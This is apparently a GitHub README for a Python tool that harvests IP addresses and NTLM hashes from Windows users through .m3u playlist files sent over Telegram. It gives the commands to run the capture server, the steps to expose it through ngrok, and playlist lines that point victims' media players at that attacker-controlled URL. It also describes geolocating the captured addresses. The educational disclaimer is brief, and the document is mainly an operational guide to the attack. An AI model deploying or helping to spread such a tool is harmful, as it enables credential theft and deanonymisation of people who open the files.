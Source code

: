 # IP and NTLM Hash Detection Tool

A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using M3U files, primarily for security testing and educational purposes. This tool exploits the lack of blocking for the `.m3u` file extension in Telegram.

![m3u](https://github.com/user-attachments/assets/7051d51e-dee0-4304-9c3d-fd14c71f2e49)

## Demonstration

https://github.com/user-attachments/assets/703c3564-e669-4940-a4cd-4554ee14ffce

## Overview

This tool sets up an HTTP server that:

- Logs client IP addresses and connection details.
- Attempts to capture NTLM authentication hashes when clients connect.
- Uses client-side JavaScript to detect and report public IP addresses.
- Generates `.m3u` files to trigger connections via media players.

## Features

- **IP Address Logging**: Records client IP addresses, ports, and connection details.
- **NTLM Hash Capture**: Requests and logs NTLM authentication hashes.
- **Public IP Detection**: Detects and reports clients' real public IP addresses using JavaScript.
- **Geolocation**: Identifies the geographic location of captured IP addresses.
- **Network Diagnostics**: Performs connectivity tests to ensure server accessibility.
- **Alternative Port Support**: Automatically tries alternative ports if the primary port is unavailable.

## Prerequisites

- Python 3.6 or higher
- Internet connectivity
- Open port access (may require firewall/router configuration)

## Installation

1. Clone the repository or download the script:

   ```bash
   git clone https://github.com/<your-repo>/ip-ntlm-hash-tool.git
   ```

2. Install required dependencies:

   ```bash
   pip install -r requirements.txt
   ```

## Usage

### Basic Usage

Run the script with default settings (port 8001, auto-detected IP):

```bash
python ipntlmhash.py
```

### Advanced Usage

Specify a custom IP address and port:

```bash
python ipntlmhash.py --ip 192.168.1.100 --port 8080
```

Try alternative ports if the primary port fails:

```bash
python ipntlmhash.py --alt-ports
```

### Command-line Options

| Option | Description | Default |
| --- | --- | --- |
| `--ip` | Specify the server IP address | Auto-detected |
| `--port` | Specify the port to listen on | 8001 |
| `--alt-ports` | Try alternative ports (80, 443, 8080, 8000) if primary fails | Disabled |

## Using with Ngrok (Recommended)

For public accessibility, especially behind NAT or firewalls, use ngrok:

1. Start the script:

   ```bash
   python ipntlmhash.py
   ```

2. In a separate terminal, start ngrok:

   ```bash
   ngrok http 8001
   ```

3. Ngrok will provide a public URL (e.g., `https://a1b2c3d4.ngrok.io`).

4. Edit the generated `.m3u` files to use the ngrok URL:

   - `ntlmv2_hash.m3u`:

     ```
     https://a1b2c3d4.ngrok.io/somefile.mp3
     ```

   - `ip_detect.m3u`:

     ```
     https://a1b2c3d4.ngrok.io/ip
     ```

## How It Works

1. The server listens for incoming connections on the specified port.
2. Upon client connection, it logs the IP address, port, and geolocation.
3. The server attempts NTLM authentication to capture hash data.
4. The `/ip` endpoint serves a JavaScript-based page to detect the client's public IP.
5. Clients report their public IP back to the server.
6. Generated `.m3u` files trigger connections when opened in media players.

## Output Files

- `ip_log.txt`: Logs of client connections and reported public IPs.
- `ntlm_log.txt`: Captured NTLM authentication data.
- `ipltlmhash.m3u`: Triggers both IP and NTLM hash capture.
- `ip_detect.m3u`: Directs clients to the IP detection page.

## Limitations

- NTLM hash capture depends on the client attempting NTLM authentication.
- Server accessibility requires proper network/firewall configuration.
- The tool captures NTLM hash data but does not fully process the handshake.
- Public IP detection requires JavaScript enabled in the client's browser.

## Security Note

This tool is intended for **educational purposes and authorized security testing only**. Unauthorized use against systems without permission may violate laws and regulations. Use responsibly and ethically.

## Troubleshooting

If you encounter connectivity issues:

- Ensure your firewall allows incoming connections on the server port.
- Set up port forwarding on your router if behind NAT.
- Use ngrok for reliable public access.
- Check the "Network Configuration Check" and "Server Accessibility Test" in the tool's output.
